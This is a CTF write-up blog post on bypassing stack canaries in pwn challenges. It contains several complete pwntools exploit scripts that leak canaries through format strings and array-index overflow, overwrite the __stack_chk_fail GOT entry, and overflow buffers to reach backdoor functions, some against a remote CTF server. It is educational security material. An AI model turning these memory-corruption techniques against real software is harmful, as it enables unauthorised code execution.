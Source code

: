 ```yaml
---
title: Bypassing and leaking ideas about "PWN" canary
tags: ['CTF', 'Pwn']
authors: [nova]


---
```


Ready to study the bypass under different protection mechanisms before diving into the heap.

Let's take a look at Canary today

<!--truncate-->

# Leak Canary

One of the main ways to bypass Canary is to leak the value of Canary, usually through formatting strings or some output from the question.

## bin

This is a basic question that leaks Canary through format strings

![pseudocode](https://cdn.ova.moe/img/image-20220116194731361.png)

![checksec](https://cdn.ova.moe/img/image-20220116195013327.png)

At the same time, there is a backdoor function `cat flag`, so we only need to leak the value of the canary, and overflow to the backdoor function.

By observing GDB, we see that the canary is at the seventh parameter position of the string, directly read canary from any address.

exp:

```python
from pwn import *

context.log_level = 'DEBUG'
context.arch = 'i386'
context.os = 'linux'

sh = process('./bin')

payload = b'%7$x'
# gdb.attach(sh, 'b printf')
sh.sendline(payload)
canary = int(sh.recv(), 16)
print(canary) 
getflag_addr = 0x0804863B
payload = b'A'*100 + p32(canary) + b'A'*12 + p32(getflag_addr)
sh.sendline(payload)
sh.interactive()

```

## pwn1

This utilizes knowledge of array index overflow, but the essence is the same.

By overflowing the array index to modify its upper limit judgment, then leaking canary.

(Testers believed that it should be possible to directly modify the array index to the return address, directly modifying the return address, but had not figured it out yet. While writing the script, it segfaulted, and even changing it back did not work. The programmer's question +1.)

Two exp are provided.

exp1:

```python
from pwn import *
context.log_level = 'DEBUG'
context.arch = 'amd64'
context.os = 'linux'

# sh = process("./calc")
sh = remote('pwn.nos4fe.site', 10000)

sh.recvuntil(b'Your choice:')
sh.sendline(b'1')
sh.recvuntil(b'Please input the pos:')
sh.sendline(b'-2')
sh.recvuntil(b'Please input the number:')
sh.sendline(b'1000')

for i in range(23):
    sh.recvuntil(b'Your choice:')
    sh.sendline(b'1')
    sh.recvuntil(b'Please input the pos:')
    sh.sendline(b'%d' % i)
    sh.recvuntil(b'Please input the number:')
    sh.sendline(b'0')

#gdb.attach(sh, 'b puts')


sh.recvuntil(b'Your choice:')
sh.sendline(b'2')
sh.recvuntil(b'How many?')
sh.sendline(b'24')
sh.recvuntil(b"result:")
canary = int(sh.recvline())
calc_root_addr = int(0x4012BD)
sh.recvuntil(b'Your choice:')
sh.sendline(b'3')
sh.recvuntil(b"What's your name?")
payload = b'A'*(0x20-0x08) + p64(canary) + b'A'*0x08 + p64(calc_root_addr)
sh.sendline(payload)
sh.interactive()

```

exp2:

```python
from pwn import *
context.log_level='DEBUG'
context.arch='amd64'
context.os='linux'

#sh = process("./calc")
sh = remote('pwn.nos4fe.site', 10000)

sh.recvuntil(b'Your choice:')
sh.sendline(b'1')
sh.recvuntil(b'Please input the pos:')
sh.sendline(b'-2')
sh.recvuntil(b'Please input the number:')
sh.sendline(b'1000')


sh.recvuntil(b'Your choice:')
sh.sendline(b'1')
sh.recvuntil(b'Please input the pos:')
sh.sendline(b'25')
#gdb.attach(sh, 'b puts')
sh.recvuntil(b'Please input the number:')
sh.sendline(b'4199101')

sh.recvuntil(b'Your choice:')
sh.sendline(b'3')
sh.sendline(b'')
sh.interactive()
```



# Hijack stack_chk_fail

Modify the `stack_chk_fail` function's got address, so that it directly jumps to the backdoor function when executed.

Then stack overflow.

Mainly relying on formatting strings to write to arbitrary addresses (making people doubt life)

```python
from pwn import *

context.log_level = 'DEBUG'
context.arch = 'amd64'
context.os = 'linux'

sh = process('./bin3')
elf = ELF('./bin3')

stack_chk_fail_got = elf.got['__stack_chk_fail']
backdoor_addr = 0x040084E

payload = fmtstr_payload(6, {stack_chk_fail_got: backdoor_addr})
print(payload)
sh.sendline(payload + b'A'*0x100)
sh.interactive()

```

> By the way, I actually don't quite understand the large number coverage of fmtstr, but pwntools unexpectedly provides `fmtstr_payload` to calculate for you, which is great



# Brute-Force

Forking a process will keep the canary constant, making it possible to brute force.

~~Haven't found the question yet~~



<!-- AI -->
